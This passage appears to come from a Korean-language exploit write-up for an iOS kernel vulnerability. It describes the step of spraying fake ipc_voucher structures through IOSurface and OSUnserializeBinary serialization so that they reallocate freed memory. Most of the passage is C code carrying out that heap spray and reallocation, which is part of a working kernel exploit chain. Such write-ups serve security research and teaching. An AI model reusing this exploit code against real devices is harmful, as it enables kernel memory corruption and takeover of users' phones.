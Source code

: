 ### fake new_voucher 스프레이

우리는 다시한번 OSUnserializeBinary XML Spraying 원리를 이용하여 new_voucher 데이터를 재할당시켜준다. 기존에  IOSurface_remove_value로 오버랩된 인덱스(spray_index)에 해당되는 fake voucher 모인 페이지 집합들을 free시키고 **”iv_refs=200, iv_port=fake port 데이터가 적힌 파이프 할당 예측주소” 로 구성된 fake new_voucher**로 재할당시킨다.

```c
    /* we used this smaller dict later in order to reallocate our target OSString */
    int small_dictsz = (9 * sizeof(uint32_t)) + pagesize;
    uint32_t *dict_small = malloc(small_dictsz);
    bzero((void *)dict_small, small_dictsz);

    dict_small[0] = IOSurface_id;
    dict_small[1] = 0x0;
    dict_small[2] = kOSSerializeMagic; 
    dict_small[3] = kOSSerializeEndCollection | kOSSerializeArray | 1;
    dict_small[4] = kOSSerializeEndCollection | kOSSerializeDictionary | 1;
    dict_small[5] = kOSSerializeSymbol | 5;
    dict_small[6] = transpose(spray_index); /* Key */
    dict_small[7] = 0x0;
    dict_small[8] = kOSSerializeEndCollection | kOSSerializeString | (pagesize - 1);

    uint8_t *osstring_buf = (uint8_t *)dict_small + (9 * sizeof(uint32_t));
    /* overwrite all the ports in the osstring */
    for (uintptr_t ptr = (uintptr_t)osstring_buf, end = ptr + pagesize;
         ptr + sizeof(fake_ipc_voucher_t) <= end;
         ptr += sizeof(fake_ipc_voucher_t))
    {
        bcopy((const void *)&new_voucher, (void *)ptr, sizeof(fake_ipc_voucher_t));  
    }

    INFO("realloc'ing...\n");

    sched_yield();

    struct IOSurfaceValueArgs_string request = {
        .surface_id = IOSurface_id,
        ._out1 = 0x0,
        .string_data = transpose(spray_index),
        .null = 0
    }; 
    ret = IOSurface_remove_value((struct IOSurfaceValueArgs *)&request, sizeof(request));
    if(ret == false) exit(1);

    ret = IOSurface_set_value(dict_small, small_dictsz);
    if(ret == false) exit(1);

    for (int i = 0; i < 0x10; i++)
    {
        if (i == spray_index)  
        {
            continue;
        }

        dict_small[6] = transpose(i); 

        ret = IOSurface_set_value(dict_small, small_dictsz);
        if(ret == false) exit(1);
    }
```
